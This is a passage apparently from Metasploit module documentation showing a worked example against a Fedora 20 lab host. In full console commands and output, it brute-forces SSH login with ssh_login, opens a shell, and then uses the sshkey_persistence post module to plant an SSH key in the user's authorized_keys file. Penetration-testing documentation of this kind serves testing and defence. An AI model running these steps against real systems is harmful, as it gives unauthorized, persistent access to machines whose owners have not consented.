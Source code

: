     [*] Auxiliary module execution completed


### Fedora 20 (user level)

Get Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set username user
    username => user
    msf auxiliary(ssh_login) > set password password
    password => password
    msf auxiliary(ssh_login) > set rhosts 192.168.2.143
    rhosts => 192.168.2.143
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'user:password' 'uid=1000(user) gid=1000(user) groups=1000(user),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.homeGroup 3.11.10-301.fc20.x86_64 #1 SMP Thu Dec 5 14:01:17 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:37727 -> 192.168.2.143:22) at 2016-06-19 20:33:45 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set username user
    username => user
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Finding .ssh directories
    [+] Storing new private key as /root/.msf4/loot/20160619203401_default_192.168.2.143_id_rsa_010117.txt
    [*] Creating /home/user/.ssh/authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1452 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Post module execution completed

